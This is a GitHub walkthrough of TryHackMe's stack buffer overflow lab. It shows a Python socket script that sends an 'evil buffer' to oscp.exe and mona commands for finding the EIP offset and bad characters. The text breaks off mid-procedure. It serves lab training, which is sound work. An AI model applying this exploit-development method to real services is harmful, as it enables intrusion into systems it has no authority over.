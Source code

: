 # Buffer-Overflow-Prep
We're going to learn how to solve 3 tryhackme's stack buffer overflow.

This is the link to the Tryhackme Machine: https://tryhackme.com/room/bufferoverflowprep

# Things that you will need:
You will need x32dbg made by therealdreg: https://github.com/therealdreg/x64dbg-exploiting

[![18eaa8e03e02775805ec70f088604676.png](https://i.postimg.cc/6qzWgzJ9/18eaa8e03e02775805ec70f088604676.png)](https://postimg.cc/Pvpn8W5c)

You will need your OpenVPN from Tryhackme: https://tryhackme.com/access

You will need wfreerdp to get "vulnerable_apps.zip"

You can get it from here: https://ci.freerdp.com/job/freerdp-nightly-windows/arch=win32,label=vs2013/

[![e73bc927e928e9aac8a53960cfb34a08.png](https://i.postimg.cc/15ts4G1q/e73bc927e928e9aac8a53960cfb34a08.png)](https://postimg.cc/kDkkpt4J)

# First Steps

Start the machine in Tryhackme.

Open your OpenVPN and wait to connect to the machine, so we can work.

After downloading it all, We will need to execute this comand on cmd: ```wfreerdp.exe /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea```

[![11fd449aa4140dac4f71db16bbe012b2.png](https://i.postimg.cc/XqgPgzMg/11fd449aa4140dac4f71db16bbe012b2.png)](https://postimg.cc/0KbZkZy6)

Once we connect to the Tryhackme Machine, we can start to work!

On the Desktop is "vulnerable_apps", so we can right click it and make it a zip.

[![ddf3a6b17b9494a291f4f5c02fa15903.png](https://i.postimg.cc/sDqYNJVP/ddf3a6b17b9494a291f4f5c02fa15903.png)](https://postimg.cc/fJ7S3mSk)

Then in the windows machine we can found that we can use Python27 then we can get "vulnerable_apps.zip" via http server.

So knowing this we use on the cmd: ```c:\Python27\python.exe -m SimpleHTTPServer```

[![8ec396ffd688f7e79111b8edcfb31b3c.png](https://i.postimg.cc/g0S83yB6/8ec396ffd688f7e79111b8edcfb31b3c.png)](https://postimg.cc/Z9NWSNmT)

Back on your Windows search on google: ```MACHINEIP:8000```

[![88368624e10a140e81068e70fcea41ac.png](https://i.postimg.cc/SQrqdZf5/88368624e10a140e81068e70fcea41ac.png)](https://postimg.cc/3WdPJF6C)

Download "vulnerable_apps.zip" and unzip it.

# Using x32dgb

We will need a script to execute an exploit on the "oscp.exe"

Tryhackme give us this:

```
import socket

ip = "MACHINE_IP" # Here introduce 127.0.0.1 for local or TryHackme's Machine IP
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We will start trying the exploit doing it in local, so we neet to introduce in the parameter "ip" 127.0.0.1

Run the program, and open the file "oscp.exe" it is in this path: ```vulnerable-apps/vulnerable-apps/oscp/oscp.exe```

[![7ee528397d8b95aa959aefcb51bca05b.png](https://i.postimg.cc/W1S9zHgG/7ee528397d8b95aa959aefcb51bca05b.png)](https://postimg.cc/dhkRSnW3)

Then you will see something like this:

[![a5255baed8f1aee8570dc9f6c68715b7.png](https://i.postimg.cc/SR1SRLLQ/a5255baed8f1aee8570dc9f6c68715b7.png)](https://postimg.cc/YLgKyWyT)

# Useful codes for x32dgb using mona

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
--------------------------------------------------------------------------------

mona.mona("pattern_create 2000")

mona.mona('bytearray -cpb "\\x00"')

mona.mona('compare -f C:\\logs\\oscp\\bytearray.bin -a ESP')

mona.mona("pattern_offset EIP")

mona.mona("jmp -r esp") 
```

# Starting with x32dgb on "oscp.exe"

Go to Log inside of x32dgb when "oscp.exe" it's open and execute this 3 commands one by one:

```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```
You need to do this everytime you turn on your pc.

If you do this all right you'll see this with our last command:

[![cc593dbe3e7a6ab673d27fe1e4c1e1c7.png](https://i.postimg.cc/05CRfCwb/cc593dbe3e7a6ab673d27fe1e4c1e1c7.png)](https://postimg.cc/3WWcrm9T)

Now, we need to create a pattern, so we can know how much bytes can we put to get to EIP.

```mona.mona("pattern_create 2000")``` Enter this in "Log".

You should see this:

[![c1e9cbf34e1914f2504c149861837c32.png](https://i.postimg.cc/tC0ks0T6/c1e9cbf34e1914f2504c149861837c32.png)](https://postimg.cc/MXDVLF1Z)

Restart and Run your program a few times till it open this will be done everytime that we change the file.py

You need to execute your python3 in your cmd like this: ```c:\YOUR_PATERN_PYTHON3\python.exe YOUR.PY```

[![c5f08318b0473e0b4cf5922b81483227.png](https://i.postimg.cc/pTjBVkDx/c5f08318b0473e0b4cf5922b81483227.png)](https://postimg.cc/8J1vtRKn)

Now in "Log" we need to execute the command: ```"mona.mona("pattern_offset EIP")"``` 

This gonna compare our pattern to get how much bytes we need to get to EIP.

[![6632609ce31c786d0df06b32ed0d0d62.png](https://i.postimg.cc/nzLt6j7v/6632609ce31c786d0df06b32ed0d0d62.png)](https://postimg.cc/v1Cjnm0B)

We see that we need 1978 bytes to get to EIP so we gonna put this on payload: (\x41 means A in ASCII and \x42 means B in ASCII )

[![9509072bfe829744e9818c7d7c1944a8.png](https://i.postimg.cc/85qNMkJM/9509072bfe829744e9818c7d7c1944a8.png)](https://postimg.cc/hzbkqB0t)

We need to restart "oscp.exe" and run it till it's open. Execute your file.py and you should see this on EIP:

[![65dad277ef0a729dc5cc05b235340f9a.png](https://i.postimg.cc/hjqBpD1B/65dad277ef0a729dc5cc05b235340f9a.png)](https://postimg.cc/4Kwq3T0L)

We can see here "\x41" and "\x42" at the top of the stack.

[![49443394b4bce14e67c3cb45bd2d755d.png](https://i.postimg.cc/QCQwC129/49443394b4bce14e67c3cb45bd2d755d.png)](https://postimg.cc/9wfJNRFC)

If you can see this, all is going good! Well done!

Now it's time to search badchars

# Searching Badchars

Go to "Log", execute: ```mona.mona('bytearray -cpb "\\x00"')``` 

This will create a payload without the badchat \x00 that we asume that it's a badchar.

[![ac1ff2ab0df93fab77e2c6006d0f091d.png](https://i.postimg.cc/xdP2prxN/ac1ff2ab0df93fab77e2c6006d0f091d.png)](https://postimg.cc/zL363Q1q)

Paste it all into payload under ```payload+= "\x42" * 4``` 

All like this:

[![e91dc714947f2eb896159a816bc4e94b.png](https://i.postimg.cc/ydC41ZBw/e91dc714947f2eb896159a816bc4e94b.png)](https://postimg.cc/PLyFKNC4)

Now, We need to restart the program and run it again to execute our payload with the file.py

Every time you need to check that EIP got our 4 "\x42"(B).

Afther that go to the bottom zone and right click go to expresion : "esp"

